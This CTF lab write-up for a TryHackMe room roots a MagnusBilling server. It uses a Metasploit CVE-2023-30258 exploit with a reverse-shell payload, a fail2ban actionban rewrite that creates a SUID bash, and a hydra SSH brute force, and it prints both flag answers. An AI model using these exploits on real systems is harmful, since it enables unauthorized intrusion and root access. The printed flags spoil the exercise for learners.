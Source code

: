 
# Billing
https://tryhackme.com/room/billing

## Questions

> What is user.txt?  

> What is root.txt?  

This room involves using Metasploit.  

## 1. Enumerate Ports

```bash
└─$ nmap -A -sC -Pn 10.201.121.205
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-14 13:01 PDT
Nmap scan report for 10.201.121.205
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u6 (protocol 2.0)
| ssh-hostkey: 
|   256 3c:17:9e:70:e0:9e:e1:e7:57:88:3f:57:61:25:9e:e0 (ECDSA)
|_  256 aa:d8:a4:7f:74:fc:46:40:c7:44:e7:cf:29:48:cd:5f (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
|_http-server-header: Apache/2.4.62 (Debian)
| http-title:             MagnusBilling        
|_Requested resource was http://10.201.121.205/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   163.17 ms 10.23.0.1
2   ... 3
4   232.41 ms 10.201.121.205

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.95 seconds
```

> http://MACHINE_IP:80 redirects to a login page at http://MACHINE_IP/mbilling

## 2. Metasploit

We will be following [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258) to exploit a command injection vulnerability in 
MagnusBilling application versions 6.x and 7.x. We can use [Metasploit](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/) 
for this.

> `RHOST`: the remote target host address  

> `LHOST`: the listen address. __Important__ This may need to be set to your `tun0` IP address or similar, if you are connecting
> to your target over a VPN  

```bash
└─$ msfconsole -q
msf6 > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > show options

Module options (exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: so
                                         cks5, socks5h, sapni, http, socks4
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/us
                                         ing-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /mbilling        yes       The MagnusBilling endpoint URL
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the loca
                                       l machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


   When TARGET is 0:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   WEBSHELL                   no        The name of the webshell with extension. Webshell name will be randomly generated if
                                         left unset.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS MACHINE_IP
RHOSTS => MACHINE_IP
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST VPN_IP
LHOST => VPN_IP
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run
```

## 3. Create a Shell

```bash
meterpreter > shell
Process 2578 created.
Channel 0 created.
id
uid=1001(asterisk) gid=1001(asterisk) groups=1001(asterisk)
SHELL=/bin/bash script -q /dev/null
$ export TERM=xterm
```

## 4. Find the User Flag

```bash
$ find / -name user.txt -exec cat {} \; -quit 2>/dev/null
THM{4a6831d5f124b25eefb1e92e0f0da4ca}
```

## 5. Escalate Privileges

> [Creating](https://www.revshells.com/) and [upgrading](https://0xffsec.com/handbook/shells/full-tty/) a reverse shell can help here.  

We always start with `sudo -l` when we get access to a user account.

```bash
$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-201-121-205:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-201-121-205:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

User `asterisk` can run `fail2ban-client` with sudo privileges.
We can [exploit](https://juggernaut-sec.com/fail2ban-lpe/) that.

```bash
$ ps -ef | grep -i fail2ban
ail2ban| grep -i fa
root         855       1  0 10:51 ?        00:00:05 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
asterisk    3693    2709  0 12:14 pts/1    00:00:00 grep -i fail2ban
```

`fail2ban-server` is owned by root. Let's check `/etc/fail2ban` for the configuration file.

```bash
$ ls -l /etc/fail2ban
total 84
drwxr-xr-x 2 root root 12288 May 28 12:59 action.d
-rw-r--r-- 1 root root  3017 Nov  9  2022 fail2ban.conf
drwxr-xr-x 2 root root  4096 Jul 11  2021 fail2ban.d
drwxr-xr-x 3 root root 12288 May 28 12:59 filter.d
-rw-r--r-- 1 root root 25607 Nov  9  2022 jail.conf
drwxr-xr-x 2 root root  4096 May 28 12:59 jail.d
-rw-r--r-- 1 root root  1647 Mar 27  2024 jail.local
-rw-r--r-- 1 root root   645 Nov 23  2020 paths-arch.conf
-rw-r--r-- 1 root root  2728 Nov  9  2022 paths-common.conf
-rw-r--r-- 1 root root   627 Nov  9  2022 paths-debian.conf
-rw-r--r-- 1 root root   738 Nov 23  2020 paths-opensuse.conf
```

The key thing to note is that we can read everything.
User `asterisk` can also run all sudo commands with `fail2ban-client` meaning that
we should have permission to redirect to new configuration files and restart the service.
Together with the writable configuration file, we have a working exploit.

```bash
$ cd /etc/fail2ban
$ grep -R actionban
...
action.d/iptables.conf:actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
...
```

This is the configuration file we want, but first we need to recursively copy the fail2ban directory
somewhere that we can write to.

```bash
$ cp -r /etc/fail2ban /tmp/fail2ban
```

Modify this line of `/tmp/fail2ban/action.d/iptables.conf`. 

```bash
#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash 
```

Then restart the service pointing to our modified configuration.

```bash
sudo fail2ban-client -c /tmp/fail2ban/ -v restart
```

On the attacker run `hydra` and stop it with `Ctrl-C` after a few seconds.

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.201.121.205
```

On the target machine we should now see `rootbash`.

```bash
/tmp$ ls -l
total 1240
drwxr-xr-x 6 asterisk asterisk    4096 Aug 14 12:59 fail2ban
-rwsr-xr-x 1 root     root     1265648 Aug 14 13:13 rootbash
```

```bash
$ /tmp/rootbash -p
$ python3 -c 'import os;import pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'etuid(0);os.setgid(0);pty.spawn("/bin/bash");'
$ id
uid=0(root) gid=0(root) groups=0(root),1001(asterisk)
```

## 5. Find the Root Flag

```bash
$ find / -name root.txt -exec cat {} \; -quit 2>/dev/ null
THM{33ad5b530e71a172648f424ec23fae60}
```

## Sources

1. https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/
2. https://juggernaut-sec.com/fail2ban-lpe/
